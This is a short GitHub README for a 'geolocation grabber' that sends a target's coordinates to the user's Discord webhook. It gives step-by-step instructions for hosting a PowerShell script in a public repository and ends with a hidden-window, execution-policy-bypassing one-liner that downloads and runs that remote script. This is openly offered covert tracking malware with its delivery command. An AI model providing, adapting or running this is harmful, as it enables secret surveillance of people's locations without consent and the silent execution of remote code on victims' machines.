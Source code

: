 # geoloaction-grabber
sends the coordinates of the target to your discord server via webhook


download geolocationgraber.ps1.txt
edit and replace WEBHOOK_HERE with your webhook url
save 
crate a new repo in public 
add file 
![alt text]github.com/quazi00/geoloaction-grabber/tree/main/images/image1
put geolocationgraber.ps1.txt in and commit changes 
click geolocationgraber.ps1.txt
![alt text]github.com/quazi00/geoloaction-grabber/tree/main/images/image2 
click the pen
del .txt
![alt text]github.com/quazi00/geoloaction-grabber/tree/main/images/image3
commit changes 
you should be left with geolocationgraber.ps1
click it
![alt text]github.com/quazi00/geoloaction-grabber/tree/main/images/image4
click raw
copy that link 

paste that link in the line below where it says paste here 

```powershell -w h -NoP -NonI -Exec Bypass iwr PASTE HERE | iex```

